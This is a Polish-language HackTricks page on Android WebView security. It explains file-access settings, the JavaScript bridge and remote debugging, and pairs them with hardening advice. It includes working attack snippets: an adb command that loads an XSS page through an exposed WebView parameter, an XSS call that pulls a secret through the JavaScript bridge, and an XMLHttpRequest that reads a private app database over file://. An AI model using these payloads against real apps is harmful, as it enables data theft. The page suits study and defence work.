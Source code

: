 # Webview Attacks

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Przewodnik po konfiguracjach WebView i bezpieczeństwie

### Przegląd podatności WebView

Krytycznym aspektem rozwoju aplikacji na Androida jest prawidłowe zarządzanie WebView. Ten przewodnik podkreśla kluczowe konfiguracje i praktyki bezpieczeństwa, aby zminimalizować ryzyko związane z używaniem WebView.

![WebView Example](<../../.gitbook/assets/image (1190).png>)

### **Dostęp do plików w WebView**

Domyślnie WebView zezwala na dostęp do plików. Ta funkcjonalność jest kontrolowana przez metodę `setAllowFileAccess()`, dostępną od poziomu API Androida 3 (Cupcake 1.5). Aplikacje z uprawnieniem **android.permission.READ\_EXTERNAL\_STORAGE** mogą odczytywać pliki z pamięci zewnętrznej, używając schematu URL pliku (`file://path/to/file`).

#### **Wycofane funkcje: Uniwersalny dostęp i dostęp do plików z URL**

* **Uniwersalny dostęp z URL plików**: Ta wycofana funkcja pozwalała na żądania między źródłami z URL plików, co stanowiło istotne ryzyko bezpieczeństwa z powodu potencjalnych ataków XSS. Domyślne ustawienie jest wyłączone (`false`) dla aplikacji celujących w Android Jelly Bean i nowsze.
* Aby sprawdzić to ustawienie, użyj `getAllowUniversalAccessFromFileURLs()`.
* Aby zmodyfikować to ustawienie, użyj `setAllowUniversalAccessFromFileURLs(boolean)`.
* **Dostęp do plików z URL plików**: Ta funkcja, również wycofana, kontrolowała dostęp do treści z innych URL schematu pliku. Podobnie jak uniwersalny dostęp, jej domyślne ustawienie jest wyłączone dla zwiększenia bezpieczeństwa.
* Użyj `getAllowFileAccessFromFileURLs()` do sprawdzenia i `setAllowFileAccessFromFileURLs(boolean)` do ustawienia.

#### **Bezpieczne ładowanie plików**

Aby wyłączyć dostęp do systemu plików, jednocześnie uzyskując dostęp do zasobów i aktywów, używa się metody `setAllowFileAccess()`. W przypadku Androida R i nowszych domyślne ustawienie to `false`.

* Sprawdź za pomocą `getAllowFileAccess()`.
* Włącz lub wyłącz za pomocą `setAllowFileAccess(boolean)`.

#### **WebViewAssetLoader**

Klasa **WebViewAssetLoader** to nowoczesne podejście do ładowania lokalnych plików. Używa URL http(s) do uzyskiwania dostępu do lokalnych zasobów i aktywów, zgodnie z zasadą tej samej lokalizacji, co ułatwia zarządzanie CORS.

### loadUrl

To powszechna funkcja używana do ładowania dowolnych URL w webview:
```java
webview.loadUrl("<url here>")
```
Ofc, potencjalny atakujący nigdy nie powinien mieć możliwości **kontrolowania URL**, który aplikacja ma załadować.

### **Obsługa JavaScript i schematu Intent**

* **JavaScript**: Domyślnie wyłączony w WebView, można go włączyć za pomocą `setJavaScriptEnabled()`. Należy zachować ostrożność, ponieważ włączenie JavaScript bez odpowiednich zabezpieczeń może wprowadzić luki w zabezpieczeniach.
* **Schemat Intent**: WebView może obsługiwać schemat `intent`, co może prowadzić do exploitów, jeśli nie jest starannie zarządzane. Przykładowa luka polegała na ujawnionym parametrze WebView "support\_url", który mógł być wykorzystany do przeprowadzenia ataków cross-site scripting (XSS).

![Vulnerable WebView](<../../.gitbook/assets/image (1191).png>)

Przykład eksploatacji przy użyciu adb:

{% code overflow="wrap" %}
```bash
adb.exe shell am start -n com.tmh.vulnwebview/.SupportWebView –es support_url "https://example.com/xss.html"
```
{% endcode %}

### Mostek JavaScript

Funkcja ta jest dostarczana przez Androida, która umożliwia **JavaScript** w WebView wywoływanie **funkcji natywnych aplikacji Android**. Osiąga się to poprzez wykorzystanie metody `addJavascriptInterface`, która integruje JavaScript z natywnymi funkcjonalnościami Androida, określaną jako _mostek JavaScript WebView_. Należy zachować ostrożność, ponieważ ta metoda pozwala wszystkim stronom w WebView na dostęp do zarejestrowanego obiektu Interfejsu JavaScript, co stanowi ryzyko bezpieczeństwa, jeśli wrażliwe informacje są ujawniane przez te interfejsy.

* **Wymagana jest ekstremalna ostrożność** dla aplikacji celujących w wersje Androida poniżej 4.2 z powodu luki umożliwiającej zdalne wykonanie kodu przez złośliwy JavaScript, wykorzystując refleksję.

#### Implementacja Mostka JavaScript

* **Interfejsy JavaScript** mogą wchodzić w interakcje z kodem natywnym, jak pokazano w przykładach, gdzie metoda klasy jest udostępniana JavaScript:
```javascript
@JavascriptInterface
public String getSecret() {
return "SuperSecretPassword";
};
```
* Mostek JavaScript jest włączony poprzez dodanie interfejsu do WebView:
```javascript
webView.addJavascriptInterface(new JavascriptBridge(), "javascriptBridge");
webView.reload();
```
* Potencjalne wykorzystanie przez JavaScript, na przykład, za pomocą ataku XSS, umożliwia wywoływanie wystawionych metod Java:
```html
<script>alert(javascriptBridge.getSecret());</script>
```
* Aby zminimalizować ryzyko, **ogranicz użycie mostka JavaScript** do kodu dostarczonego z APK i zapobiec ładowaniu JavaScript z zdalnych źródeł. Dla starszych urządzeń ustaw minimalny poziom API na 17.

### Wykonanie zdalnego kodu oparte na refleksji (RCE)

* Udokumentowana metoda pozwala na osiągnięcie RCE poprzez refleksję, wykonując określony ładunek. Jednak adnotacja `@JavascriptInterface` zapobiega nieautoryzowanemu dostępowi do metod, ograniczając powierzchnię ataku.

### Zdalne debugowanie

* **Zdalne debugowanie** jest możliwe za pomocą **Narzędzi dewelopera Chrome**, co umożliwia interakcję i dowolne wykonanie JavaScript w treści WebView.

#### Włączanie zdalnego debugowania

* Zdalne debugowanie można włączyć dla wszystkich WebView w aplikacji poprzez:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
WebView.setWebContentsDebuggingEnabled(true);
}
```
* Aby warunkowo włączyć debugowanie w zależności od stanu debugowalności aplikacji:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
if (0 != (getApplicationInfo().flags & ApplicationInfo.FLAG_DEBUGGABLE))
{ WebView.setWebContentsDebuggingEnabled(true); }
}
```
## Ekstrahowanie dowolnych plików

* Demonstruje ekstrahowanie dowolnych plików za pomocą XMLHttpRequest:
```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
alert(xhr.responseText);
}
}
xhr.open('GET', 'file:///data/data/com.authenticationfailure.wheresmybrowser/databases/super_secret.db', true);
xhr.send(null);
```
## Odniesienia

* [https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html)
* [https://github.com/authenticationfailure/WheresMyBrowser.Android](https://github.com/authenticationfailure/WheresMyBrowser.Android)
* [https://developer.android.com/reference/android/webkit/WebView](https://developer.android.com/reference/android/webkit/WebView)
* [https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1](https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1)
* [https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I](https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
